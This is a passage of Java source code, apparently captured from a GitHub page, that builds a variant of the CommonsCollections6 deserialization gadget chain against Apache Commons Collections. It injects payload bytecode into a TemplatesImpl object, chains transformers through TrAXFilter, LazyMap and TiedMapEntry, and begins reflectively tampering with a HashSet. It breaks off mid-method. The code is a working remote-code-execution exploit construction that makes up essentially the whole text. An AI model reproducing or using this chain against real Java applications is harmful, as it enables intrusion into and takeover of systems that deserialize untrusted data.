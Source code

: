 **CommonsCollections6-1(根据cc3特点生成的衍生版1).java**

```
package CommonsCollections6;
import CommonsCollections4.payload;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import javax.xml.transform.Templates;
import java.lang.reflect.Method;
import java.lang.Class;
import java.lang.Runtime;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;
public class exp1 `{`
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, ClassNotFoundException, IOException, NotFoundException, CannotCompileException `{`
        //封装templatesImpl实例
        TemplatesImpl tmp = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(payload.class));
        CtClass pay_class = pool.get(payload.class.getName());
        byte[] payCode = pay_class.toBytecode();
        Class clazz;
        clazz =Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        //存储payload字节码
        Field byteCode = clazz.getDeclaredField("_bytecodes");
        byteCode.setAccessible(true);
        byteCode.set(tmp,new byte[][]`{`payCode`}`);
        Field name  = clazz.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(tmp,"tr1ple");
        //构造内部转换链
        Transformer[] trans = new Transformer[]`{`
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[]`{`Templates.class`}`,
                        new Object[]`{`tmp`}`
                )
        `}`;
        //封装chained转换链
        ChainedTransformer chain = new ChainedTransformer(trans);
        HashMap innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, chain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "tr1ple2333");
        //innerMap.clear();
        //构造外部入口链
        HashSet newSet = new HashSet(1);
        newSet.add("tr1ple");
        //反射替换hashset内部的node元素
        Field innerSetMap  = HashSet.class.getDeclaredField("map");
        innerSetMap.setAccessible(true);
        //修改hashset内部的hashmap存储
        HashMap setMap = (HashMap)innerSetMap.get(newSet);
```